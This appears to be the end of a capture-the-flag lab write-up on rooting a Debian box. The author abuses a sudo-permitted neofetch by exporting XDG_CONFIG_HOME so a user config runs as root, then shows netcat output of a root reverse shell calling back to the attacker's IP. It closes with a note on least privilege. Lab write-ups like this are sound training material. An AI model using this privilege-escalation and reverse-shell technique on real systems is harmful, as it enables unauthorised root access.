 ```
       `Y$$b.
          `"Y$b._
              `"""
``` 

Note that while running on sudo for those sweet root privileges, you don't get an output. We get output for the normal `neofetch` but obviously it is only ran as user and that isn't going to get us anywhere.

To correct this, export the config file into the environment variable, that way sudo runs with the actual config file.
`export XDG_CONFIG_HOME="$HOME/.config`

Now run the sudo neofetch again
```
root
uid=0(root) gid=0(root) groups=0(root)
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 3 hours, 29 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7401P 24- (2) @ 2.000GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 156MiB / 1994MiB 
  `Y$$                                                     
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""
```

Now we can execute commands with root privileges.
Run a quick reverse shell.

```
listening on [any] 4444 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.140] 53764
# whoami
root
```

Finished my first medium :)

## Review
---
Heres some main takeaways from the box
### Sudo and how it works
Dylan mentioned that there is something called Principle of Least Privilege. What this means is that for good security practice, never do things with higher level privilges than you need. In short, run with the lowest level privileges to get the job done.
